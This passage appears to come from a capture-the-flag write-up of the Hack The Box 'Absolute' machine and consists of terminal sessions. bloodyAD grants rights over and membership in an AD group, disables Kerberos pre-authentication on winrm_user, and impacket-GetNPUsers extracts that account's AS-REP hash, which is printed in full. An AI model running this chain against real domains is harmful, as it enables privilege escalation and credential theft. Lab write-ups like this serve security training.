 



```bash
❯ bloodyAD --host dc.absolute.htb -d absolute.htb -k add genericAll 'NETWORK AUDIT' 'm.lovegod'
[+] m.lovegod has now GenericAll on NETWORK AUDIT

❯ bloodyAD --host dc.absolute.htb -d absolute.htb -k add groupMember 'NETWORK AUDIT' 'm.lovegod'
[+] m.lovegod added to NETWORK AUDIT
```





```bash
❯ ldapsearch -H ldap://dc.absolute.htb -Y GSSAPI -b "CN=NETWORK AUDIT,CN=Users,DC=absolute,DC=htb" member
SASL/GSSAPI authentication started
SASL username: svc_smb@ABSOLUTE.HTB
SASL SSF: 256
SASL data security layer installed.
# extended LDIF
#
# LDAPv3
# base <CN=NETWORK AUDIT,CN=Users,DC=absolute,DC=htb> with scope subtree
# filter: (objectclass=*)
# requesting: member 
#

# Network Audit, Users, absolute.htb
dn: CN=Network Audit,CN=Users,DC=absolute,DC=htb
member: CN=svc_audit,CN=Users,DC=absolute,DC=htb
member: CN=m.lovegod,CN=Users,DC=absolute,DC=htb
```





<figure><img src="../../../.gitbook/assets/4010_vmware_d616E9qd34.png" alt=""><figcaption></figcaption></figure>





```bash
❯ bloodyAD --host dc.absolute.htb -d absolute.htb -k add uac 'winrm_user' -f DONT_REQ_PREAUTH
[-] ['DONT_REQ_PREAUTH'] property flags added to winrm_user's userAccountControl

❯ bloodyAD --host dc.absolute.htb -d absolute.htb -k set object 'winrm_user' servicePrincipalName -v "cifs/gzzcoo"
[+] winrm_user's servicePrincipalName has been updated
```



```bash
❯ impacket-GetNPUsers -no-pass -usersfile users.txt absolute.htb/ 2>/dev/null
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

$krb5asrep$23$winrm_user@ABSOLUTE.HTB:764eee4e1c1d2ca18a29c04033580763$77a484878419c5a5a71b1d1204197173fbd011ffaf322e86dc534d4c4c2a3c3a25cffbedf6d1d5e4a5e0294a58312e67318aad22394a5d3a652197c1d0fb64caf5ff03ffdb2b009d1bc99afd13c0ade9163e9df684d7cdb3dcb75a03ea8fb3793d55c3c7a4f36d719427642943307f329e1b3d762dce28c0da958aed87982703ff81db0127648813bb26d5e72a397cd1dfaa824d829fea361f537253eba76b84c72d302a48bb84fa5a46d617f6fbe0a2e84050983958b551fdb7df8e457f809a9944638fb3d8bfa299474ca6e5360c3c80e9a114aca21640ff1459cb9b4b4404c9192a6fc6d573405cb40aad
```
